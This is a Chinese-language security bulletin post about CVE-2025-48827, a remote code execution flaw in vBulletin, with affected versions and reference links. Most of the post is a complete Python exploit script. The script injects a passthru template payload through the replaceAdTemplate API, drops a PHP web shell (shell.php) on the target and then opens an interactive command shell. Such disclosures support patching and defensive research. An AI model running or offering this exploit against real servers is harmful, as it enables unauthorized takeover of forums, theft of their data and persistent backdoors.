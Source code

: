 #  CVE-2025-48827｜vBulletin远程代码执行漏洞（POC）  
alicy  信安百科   2025-06-07 10:50  
  
**0x00 前言**  
  
  
vBulletin是一个强大，灵活并可完全根据自己的需要定制的商业论坛程序（非开源），它使用PHP脚本语言编写，并且基于以高效和高速著称的数据库引擎MySQL。  
  
  
  
**0x01 漏洞描述**  
  
  
调用受保护的API控制器  
replaceAdTemplat  
执行未授权的操作，从而执行任意代码。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-48827  
  
  
  
**0x03 影响版本**  
  
  
5.0.0 <= vBulletin < 5.7.6  
  
6.0.0 <= vBulletin < 6.0.4  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/0xgh057r3c0n/CVE-2025-48827  
```
#!/usr/bin/env python3
import requests
import sys
import urllib3
import re

# Suppress InsecureRequestWarning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# ANSI Colors
RED    = "\033[31m"
GREEN  = "\033[32m"
YELLOW = "\033[33m"
BLUE   = "\033[34m"
CYAN   = "\033[36m"
BOLD   = "\033[1m"
RESET  = "\033[0m"

def banner():
    print(CYAN + BOLD + r"""
      __________      .__  .__          __  .__      ___________________ _______>
___  _\______   \__ __|  | |  |   _____/  |_|__| ____\______   \_   ___ \\_   __>
\  \/ /|    |  _/  |  \  | |  | _/ __ \   __\  |/    \|       _/    \  \/ |    _>
 \   / |    |   \  |  /  |_|  |_\  ___/|  | |  |   |  \    |   \     \____|     >
  \_/  |______  /____/|____/____/\___  >__| |__|___|  /____|_  /\______  /______>
              \/                     \/             \/       \/        \/       >

                             vBulletin RCE - Web Shell Dropper by 0xgh057r3c0n
""" + RESET)

def usage(script):
    print(YELLOW + f"\nUsage:   python3 {script} <URL>")
    print(f"Example: python3 {script} http://target/vb/\n" + RESET)
    sys.exit(1)

def error_exit(msg):
    print(RED + f"[-] Error: {msg}\n" + RESET)
    sys.exit(1)

def info(msg):
    print(YELLOW + f"[!] {msg}" + RESET)

def success(msg):
    print(GREEN + f"[+] {msg}" + RESET)

def inject_rce_template(session, target):
    inject_data = {
        "routestring": "ajax/api/ad/replaceAdTemplate",
        "styleid": "1",
        "location": "rce",
        "template": '<vb:if condition=\'"passthru"($_POST["cmd"])\'> </vb:if>'
    }
    r = session.post(target, data=inject_data, verify=False)
    if r.text.strip() != "null":
        error_exit("Template injection failed.")
    success("RCE payload injected.")

def drop_shell(session, target):
    shell_code = '<?php if(isset($_GET["cmd"])){echo "<pre>"; system($_GET["cmd"]); echo "</pre>";} ?>'
    cmd = f"echo {shell_code!r} > shell.php"
    drop_data = {
        "routestring": "ajax/render/ad_rce",
        "styleid": "1",
        "location": "rce",
        "cmd": cmd
    }
    session.post(target, data=drop_data, verify=False)
    success(f"shell.php dropped at: {target}shell.php")
    info("Launch commands like:")
    print(f"    curl '{target}shell.php?cmd=whoami'\n")

def run_command(session, target, cmd):
    data = {
        "routestring": "ajax/render/ad_rce",
        "styleid": "1",
        "location": "rce",
        "cmd": cmd
    }
    r = session.post(target, data=data, verify=False)
    if r.status_code != 200:
        print(RED + f"[-] HTTP error: {r.status_code}" + RESET)
        return None

    # Always show full response for debug
    print(YELLOW + "[DEBUG] Full response:\n" + RESET + r.text)

    match = re.search(r"<pre>(.*?)</pre>", r.text, re.DOTALL)
    if match:
        return match.group(1).strip()
    else:
        return None

def interactive_shell(session, target):
    cwd = "."
    info("Entering interactive mode (type 'exit' to quit)")
    while True:
        try:
            user_input = input(f"{BOLD}{BLUE}(shell:{cwd})$ {RESET}").strip()
        except (KeyboardInterrupt, EOFError):
            print("\n" + YELLOW + "[!] Exiting interactive shell." + RESET)
            break

        if user_input.lower() == "exit":
            break

        if user_input.startswith("cd "):
            path = user_input[3:].strip()
            cmd = f"cd {cwd} && cd {path} && pwd"
            output = run_command(session, target, cmd)
            if output:
                cwd = output
            else:
                print(RED + "[-] Directory change failed." + RESET)
            continue

        cmd = f"cd {cwd} && {user_input}"
        output = run_command(session, target, cmd)
        if output:
            print(GREEN + output + RESET)
        else:
            print(RED + "[-] No output or command failed." + RESET)

def main():
    banner()

    if len(sys.argv) != 2:
        usage(sys.argv[0])

    target = sys.argv[1].rstrip('/') + '/'

    session = requests.Session()

    try:
        inject_rce_template(session, target)
        drop_shell(session, target)
        interactive_shell(session, target)
    except requests.exceptions.RequestException as e:
        error_exit(f"Request error: {e}")

if __name__ == "__main__":
    main()
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urD15dpTSAunnpELKUK6HCMSzM74VMFO5ibS9fOYtNeIru6sWRmLZ71YYI6gA3YNd9wIkPXknM569Q/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://kevintel.com/CVE-2025-48827  
  
  
https://github.com/0xgh057r3c0n/CVE-2025-48827  
  
  
  
  
推荐阅读：  
  
  
[CVE-2025-22252｜FortiOS TACACS+身份认证绕过漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485965&idx=1&sn=2c5e56f8ac01bcec1470c9404078f910&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-31324｜SAP Netweaver代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485948&idx=1&sn=48bbbbbc068ec1576230298b3316d386&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-2825｜CrushFTP身份验证绕过漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485925&idx=2&sn=d738862cbd185bbfc8008c484e935793&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
